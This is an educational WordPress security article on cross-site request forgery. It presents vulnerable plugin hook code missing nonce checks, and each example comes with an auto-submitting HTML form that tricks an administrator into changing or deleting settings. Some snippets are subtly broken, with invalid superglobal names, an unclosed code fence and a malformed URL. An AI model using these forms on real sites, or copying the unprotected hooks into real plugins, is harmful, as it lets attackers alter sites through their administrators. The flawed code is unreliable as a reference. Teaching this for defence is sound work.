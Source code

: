 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/functions/#current_user_can) function, and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        if(current_user_can("manage_options")){
            update_option("user_data", sanitize_text_field($_GET_["data"]));
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.


```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST_["delete"])){
        if(current_user_can("manage_options")){
            delete_option("custom_admin_menu");
        }
    }
}

In order to exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
      <input type="hidden" name="delete" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data");

function update_post_data(){
    if(isset($_POST_["update"])){
        $post_id = get_post($_GET["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data?id=1" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```